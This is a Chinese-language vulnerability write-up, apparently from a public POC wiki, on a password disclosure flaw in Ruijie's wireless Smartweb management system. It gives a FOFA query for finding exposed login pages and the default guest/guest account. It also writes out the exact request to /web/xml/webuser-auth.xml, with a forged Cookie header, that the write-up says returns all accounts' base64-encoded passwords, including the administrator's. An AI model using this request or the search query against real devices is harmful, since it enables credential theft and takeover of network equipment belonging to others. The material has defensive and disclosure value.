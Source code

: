 # 锐捷Smartweb管理系统 密码信息泄露漏洞

## 漏洞描述

锐捷网络股份有限公司无线smartweb管理系统存在逻辑缺陷漏洞，攻击者可从漏洞获取到管理员账号密码，从而以管理员权限登录。

## 漏洞影响

> [!NOTE]
>
> 锐捷网络股份有限公司 无线smartweb管理系统

## FOFA

> [!NOTE]
>
> title="无线smartWeb--登录页面"

## 漏洞复现

登录页面如下

![](resource/锐捷Smartweb管理系统-密码信息泄露漏洞/media/1.png)

默认存在 guest账户，账号密码为 **guest/guest**

其中登录的过程中搜索admin的数据后发现请求了一个文件 **/web/xml/webuser-auth.xml**，而且响应中包含了 admin密码的base64加密

![](resource/锐捷Smartweb管理系统-密码信息泄露漏洞/media/2.png)

解密就可以获得 admin管理员的密码，尝试直接请求

```
http://xxx.xxx.xxx.xxx/web/xml/webuser-auth.xml

Cookie添加
Cookie: login=1; oid=1.3.6.1.4.1.4881.1.1.10.1.3; type=WS5302; auth=Z3Vlc3Q6Z3Vlc3Q%3D; user=guest
```

![](resource/锐捷Smartweb管理系统-密码信息泄露漏洞/media/3.png)

直接获得所有的账户的等级标志和base64加密的账号密码

## Goby & POC

> [!NOTE]
>
> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> Ruijie_smartweb_password_information_disclosure

![](resource/锐捷Smartweb管理系统-密码信息泄露漏洞/media/4.png)

![](resource/锐捷Smartweb管理系统-密码信息泄露漏洞/media/5.png)